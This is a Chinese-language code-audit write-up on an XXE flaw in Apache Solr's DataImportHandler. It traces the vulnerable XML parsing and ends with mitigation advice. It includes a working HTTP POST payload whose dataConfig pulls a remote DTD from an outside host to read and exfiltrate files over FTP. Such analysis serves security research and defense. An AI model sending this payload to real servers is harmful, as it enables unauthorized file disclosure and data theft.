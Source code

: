 
代码审计系列之 Apache-solr 框架

- - -

# 代码审计系列之 Apache-solr 框架

## Apache Solr 框架简介

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。是一个独立的企业级搜索应用服务器，目前很多企业运用 solr 开源服务。原理大致是文档通过 Http 利用 XML 加到一个搜索集合中。

参考链接：[https://lucene.apache.org/solr/](https://lucene.apache.org/solr/)

## 前言

有几个朋友反映这个框架很多 src 都在使用，也是一个偶然的机会在对某厂商做测试的时候发现这个东西，使用范围还是挺广的，这一课我们就对它进行分析。

## 全版本目录列表/文件读取

根据官网给出来的默认配置如下 web.xml

```bash
<filter-mapping>
<!--
    NOTE: When using multicore, /admin JSP URLs with a core specified
    such as /solr/coreName/admin/stats.jsp get forwarded by a
    RequestDispatcher to /solr/admin/stats.jsp with the specified core
    put into request scope keyed as "org.apache.solr.SolrCore".

    It is unnecessary, and potentially problematic, to have the SolrDispatchFilter
    configured to also filter on forwards.  Do not configure
    this dispatcher as <dispatcher>FORWARD</dispatcher>.
  -->

<filter-name>SolrRequestFilter</filter-name>
<url-pattern>/*</url-pattern>

</filter-mapping>
```

一般这一类框架都是基于 filter 编写的，分析一下 SolrDispatchFilter.classes

在 doFilter 方法里面看到这一句函数调用

```bash
this.handleAdminRequest(req, response, handler2, solrReq);
```

[![](assets/1705890806-48a5d0cf9e23fb4619c52e1cf12a5210.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119153937-e56a12ea-b69d-1.jpg)

跟进 RequestHandlerBase

[![](assets/1705890806-95fecf4e09fff0ccc5a213bee95f1e00.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119153952-eeb0400e-b69d-1.jpg)

走到这里通过 ide 查看一下实现这个方法的类具体有哪些

[![](assets/1705890806-2f00168040e2233d5270c74f33021bc4.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154004-f59f79f2-b69d-1.jpg)

这里重点看其中的一个实现类 DataImportHandler.clasess

[![](assets/1705890806-f18c59f5a1dd778159e395f68e18bc1c.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154014-fbd360e0-b69d-1.jpg)  
看到这里可能有人会问你这个是 debug 模式的，仔细分析，是不是 debug 他都会调用 this.importer.runCmd 方法

DataImporter.classes

[![](assets/1705890806-319d8ce4cb533081e8dbd7996054cda4.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154028-04259812-b69e-1.jpg)

看看这个 loadDataConfig 的具体实现

[![](assets/1705890806-eda479eb2e50fd1615c02fb7673dbbff.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154035-0820db34-b69e-1.jpg)

从这里可以看出来采用的是 DocumentBuilder 进行了 xml 的解析，但是并没有做外部实体禁用操作

肯定是存在 xxe 漏洞，那么进一步测试

**1.采用 gohper 协议**

[![](assets/1705890806-5b59087078b78056616733ce70d36b4d.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154046-0ea35248-b69e-1.jpg)

显示不支持此协议，可能与我环境上下文有关系

**2.采用 http 协议**

[![](assets/1705890806-7124314535784819f86355dca1795f0d.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154054-137a11a8-b69e-1.jpg)

这里抛异常说是连接断开了，通过后台的日志我们可以发现 http 协议是支持的并且读到了目录

[![](assets/1705890806-f00f54b5fb4e79a339d5e19a5fd8f1a8.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154103-18d86dc0-b69e-1.jpg)

导致这个原因的代码如下：

[![](assets/1705890806-160a6a1b085ef9c442eb57194bcfbdd4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154337-74dd4bb8-b69e-1.png)

这个位置有一个 try catch 操作，一旦发现有特殊字符回车换行之类的就抛异常，当发生异常时候 this.config 就是个 null，系统就断开连接，一定程度，规避了这个问题。但是这个不是目的，目的就是要读到文件和目录。

**3.采用 ftp 协议**

构造一个 ftp 的 payload

[![](assets/1705890806-d4a5ac66d5419d9f5f93554c6bff9dfa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154620-d6152bb2-b69e-1.png)

启动一个 ftp 服务

[![](assets/1705890806-e1a03708b723226f38277191c96949ee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154451-a104a2d6-b69e-1.png)

发送数据包

[![](assets/1705890806-5238d05994cb8b19fe5488da748d9aff.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154112-1e101ef0-b69e-1.jpg)

成功返回

[![](assets/1705890806-78e90e21d113cab633eef436a1642f30.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240119154120-2310cd82-b69e-1.jpg)

Payload：

```bash
POST/test1/dataimport HTTP/1.1
Host:localhost:8080
Content-Length:281
Accept:application/json,text/javascript,*/*; q=0.01
Origin: http://localhost:8080
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost:8080/
Accept-Language: zh-CN,zh;q=0.8
Cookie: k4la_2132_lastcheckfeed=1%7C1491801899; k4la_2132_nofavfid=1
Connection: close

command=full-import&wt=json&indent=true&verbose=false&clean=false&commit=false&optimize=false&dataConfig=%3C%3Fxml+version%3D%221.0%22+encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE+root+%5B%3C!ENTITY+%25+remote+SYSTEM+%22http%3A%2F%2Fxxe.boomeye.com%2Fftp_xxe.xml%22%3E%25remote%3B%5D%3E
```

## 总结

1.  对于 solr 的应用程序，每一个实例的访问应该添加授权机制，防止信息泄露和未授权调用
2.  对于 xml 的解析，在官方没有给出修复版本的情况下，采用 waf 解决

原文链接： [https://mp.weixin.qq.com/s/6gsTTgl3AzfZF6h8wJ8INw](https://mp.weixin.qq.com/s/6gsTTgl3AzfZF6h8wJ8INw)

